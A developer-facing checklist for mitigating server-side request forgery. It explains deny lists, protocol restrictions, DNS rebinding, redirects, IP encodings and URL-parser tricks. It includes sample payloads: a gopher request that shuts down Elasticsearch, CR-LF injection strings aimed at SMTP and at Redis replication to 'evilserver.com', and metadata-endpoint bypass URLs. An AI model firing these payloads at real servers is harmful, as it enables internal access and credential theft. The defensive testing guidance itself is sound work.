 # Server Side Request Forgery (SSRF) Checklist

<img src="images/ssrf.png" align="left"/>

Server-Side Request Forgery (SSRF) allows an attacker to have a server perform network calls in the context of that server. Common exploits will communicate to backend services via HTTP, but other protocols are also possible via protocol smuggling.

Impact of SSRF can vary, but can be especially severe in cloud environments due to cloud provider's metadata services revealing sensitive data. Avoid processing user supplied URLs if possible. Otherwise this checklist can help cover some common vectors.

## Mitigation Checklist
- [ ] Ensure that IP deny lists are comprehensive
- [ ] Enforce only defined protocols are processed (E.g. only HTTP/HTTPS)
- [ ] Ensure that DNS name resolutions don’t bypass any checks
- [ ] Ensure that HTTP redirects don’t bypass any checks
- [ ] Ensure that the IPv6 addresses don’t bypass any checks
- [ ] Ensure that uncommon representations of IPs don’t bypass any checks
- [ ] Ensure user controlled data is the expected type
- [ ] Ensure abusing URL parsing doesn’t bypass checks
- [ ] Ensure CR-LF & Unicode characters get encoded correctly
- [ ] Minimize user controlled data that is processed

### Ensure that IP deny lists are comprehensive

There's probably not a legitimate use case for a user to have a server request something in the private IP space, the loopback address, or the AWS metadata endpoint. Ensure that you have all the following IPs in your disallow list.

|   |   |
|---|---|
| 127.0.0.1/8 | Loopback |
| 10.0.0.0/8 | Private IP Address Block |
| 172.16.0.0/12 | Private IP Address Block |
| 192.168.0.0/16 | Private IP Address Block |
| 169.254.169.254/32 | AWS Metadata Endpoint |

### Enforce only defined protocols are processed (E.g. only HTTP/HTTPS)

Configure the service to only use explicitly defined protocols. E.g. only allow HTTP/HTTPS. Not defining the protocol can allow protocol smuggling.

This request:
```
gopher://127.0.0.1:9200/_POST%20/shutdown%20HTTP/1.1%0AUser-Agent%3A%20curl/
7.35.0%0AHost%3A%20127.0.0.1%0AAccept%3A%20*/*%0AContent-Length%3A23%0AContent-Type%3A+application/
x-www-form-urlencoded%0AConnection%3A+close%0A%0AIm%20the%20request%20body%20now
```
Creates the following call to an elasticsearch server:
```
POST /shutdown HTTP/1.1
User-Agent: curl/7.35.0
Host: 127.0.0.1
Accept: */*
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Connection: close

Im the request body now
```

### Ensure that DNS name resolutions don’t bypass any checks

DNS rebinding attacks will resolve subdomains to internal IP addresses. Sites like xip.io provide this functionality. You can use this for testing. Ensure these resolutions will also be blocked by IP disallow lists.

|   |   |
|---|---|
| http://169.254.169.254.xip.io/ | http://169.254.169.254 |

### Ensure that HTTP redirects don’t bypass any checks

An attacker may host a server where they can set the response headers of a request to point to internal IPs. URL shortening services like bitly also can provide this functionality. You can use this for testing. Ensure redirects will also be blocked by IP disallow lists.

|   |   |
|---|---|
| https://bit.ly/2Gr1XnX | http://169.254.169.254 |

Also ensure that redirects will only process the predefined protocols.

### Ensure that the IPv6 addresses don’t bypass any checks

IPv4 can be represented as IPv6 addresses. Make sure these don’t bypass IP disallow lists.
| IPv4 | IPv6|
|---|---|
| 127.0.0.1 | 0:0:0:0:0:ffff:7f00:1 |
| 69.254.169.254 | 0:0:0:0:0:ffff:a9fe:a9fe |


### Ensure that uncommon representation of IPs don’t bypass any checks

Many libraries and binaries will process IPs represented as 32 bit ints, hex, or octal. Make sure that these don’t bypass the IP disallow lists.

| IP | 32bit Int | Hex | Octal |
|---|---|---|---|
| 127.0.0.1 | 2130706433 <br /> 0 | 0x7f000001 <br /> 0x0 | |
| 169.254.169.254 | 2852039166 | 0xa9fea9fe | |

You can test this out locally with ping or other binaries. (Note: `ping 0` resolves on linux, but not mac)

```
$ ping 2130706433
PING 2130706433 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.018 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.046 ms
```

### Ensure user controlled data is the expected type

```
axios.request(req.data.url).then(function(res) {

})
```
Some JS http client functions accept either a string or config object to create a request. An attacker could set the url parameter to be a config object. Similar issues can exist in other languages when assuming user input type. Ensure all user data is the expected data type.

Note: The impact of this vector can be more severe if the docker daemon is accessible from the app. Axios and some other JS request libraries support communicating over Unix sockets (See here). This results in RCE.

### Ensure abusing URL parsers doesn’t bypass checks

Ensure that the URL that was parsed and validated is the same that will be fetched by http client.

```
http://myvalidserver.com:8080@attackerserver.com
```

Most URL parsing libs will evaluate the server as attackerserver.com The following is vulnerable to allow an attacker to specify the host of the request.

```
axios.get(`http://myvalidserver.com:8080${req.data.path}`)
```

Include a trailing / before the user controlled path to avoid this vulnerability.

The following patterns may also be used for testing:
```
http://127.0.0.1:11211:80/
http://foo@evil.com:80@google.com/
http://foo@127.0.0.1 @google.com/
http://google.com#@evil.com/
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
http://127.0.0.1\tfoo.google.com
```

Ref: https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming- Languages.pdf

### Ensure CR-LF & Unicode characters get encoded correctly

Make sure CR-LF characters stay encoded and don’t allow CR-LF injection
```
http://127.0.0.1:25/%0D%0AHELO orange.tw%0D%0AMAIL FROM
http://127.0.0.1:25/\r\nSLAVE OF evilserver.com\r\n
```

```
http://myserver.com//passwd
http://myserver.com/xFF/x2E/xFF/x2E/passwd
```

### Minimize user controlled data that is processed

Nothing to test here. Just a note to evaluate if any user controlled parameters can be removed to reduce risk.


:Warning: This list attempts to be comprehensive. Feel free to open an issue or PR for missing or incomplete vectors.
